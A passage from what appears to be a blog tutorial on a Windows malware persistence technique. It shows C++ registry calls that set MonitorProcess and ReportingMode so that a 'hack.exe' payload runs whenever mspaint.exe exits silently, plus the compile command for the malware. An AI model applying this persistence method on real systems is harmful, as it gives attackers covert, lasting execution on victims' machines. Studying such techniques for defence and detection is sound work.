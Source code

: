 By setting `MonitorProcess` to `...\hack.exe` and `ReportingMode` to `1`, every silent exit of `mspaint.exe` will now trigger the execution of our "malware" `hack.exe`:     

```cpp
//...

RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, (const BYTE*)&rM, sizeof(rM));
RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
```

### demo

Let's go to see everything in action. Compile malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/68/2022-09-11_15-52.png){:class="img-responsive"}    

Run it, just for check correctness:    
